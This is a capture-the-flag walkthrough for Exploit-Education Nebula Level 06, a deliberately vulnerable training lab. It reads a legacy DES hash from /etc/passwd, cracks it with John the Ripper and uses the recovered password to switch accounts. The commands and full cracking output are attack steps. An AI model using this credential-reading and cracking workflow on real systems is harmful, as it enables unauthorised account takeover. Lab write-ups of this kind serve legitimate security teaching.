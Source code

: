 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 06"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 6](https://exploit.education/nebula/level-06/)

## Challenge
The `flag06` account credentials came from a legacy unix system.

To do this level, log in as the `level06` account with the password `level06`. Files for this level can be found in `/home/flag06`.

## Vulnerability
It is mentioned that the user account was created using a legacy unix system.
In older systems the account passwords used to be saved in the `/etc/passwd` file and was encrypted using a 
weak algorithm (DES Algorithm)

Lets look at the passwd file
``` bash
level06@nebula:/etc$ cat passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```
And we can see the username and an encrypted password. Lets copy it into a file named `p.john` and try cracking it 
using [John the Ripper](https://www.openwall.com/john/)
``` bash
C:> .\john.exe 'p.john'
Warning: detected hash type "descrypt", but the string is also recognized as "descrypt-opencl"
Use the "--format=descrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 642 candidates buffered for the current salt, minimum 1024 needed for performance.
Proceeding with wordlist:/run/password.lst, rules:Wordlist
hello            (flag06) //Password and Username

1g 0:00:00:00 DONE 2/3 (2019-08-07 09:17) 4.166g/s 73616p/s 73616c/s 73616C/s 123456..betabeta
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
And it was cracked quickly since it was using a weak algorithm and a even more weaker password

Lets login using these credentials

``` bash
level06@nebula:/etc$ su - flag06
Password:
flag06@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Solved!